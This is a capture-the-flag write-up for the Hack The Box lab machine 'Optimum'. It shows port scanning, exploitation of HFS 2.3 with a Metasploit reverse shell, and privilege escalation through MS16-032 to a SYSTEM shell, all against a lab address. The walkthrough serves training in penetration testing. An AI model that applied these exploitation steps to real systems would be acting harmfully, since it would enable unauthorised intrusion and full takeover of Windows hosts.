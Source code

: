 # Hack The Box : Optimum
## Difficulty : Easy
## OS : Windows

## Enumeration:

I'll start with a simple port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.6.228
```

![nmapScan](img1.png)


I'll take a look at port 80.

![page1](img2.png)

## Foothold:

Searching for CVEs on HFS 2.3 I find this "https://www.exploit-db.com/exploits/39161".
I also found it in metasploit so that's how I'm going to use it.

```bash
sudo msfconsole -q
set LHOST tun0
set LPORT 6666
set RHOSTS 10.129.6.228
run
```

![shell](img3.png)

We got a shell. Now let's get the user flag.

```bash
ls
cat user.txt
```
## We got the user flag!

## Privilege Escalation

Checking the OS version we can see Windows Server 2012 R2 (6.3 Build 9600) is used. This version is vulnerable to MS16-032.

```bash
sysinfo
```

![OSV](img4.png)

I'll use this exploit to get a SYSTEM shell.

```bash
[Ctrl+z]
search MS16-032
use 0
set LHOST tun0
set SESSION 1
run
```

![System](img5.png)

It worked. Now Let's get the root flag.

```bash
cd /
cd Users\\
cd Administrator\\
cd Desktop\\
cat root.txt
```

## We got the root flag!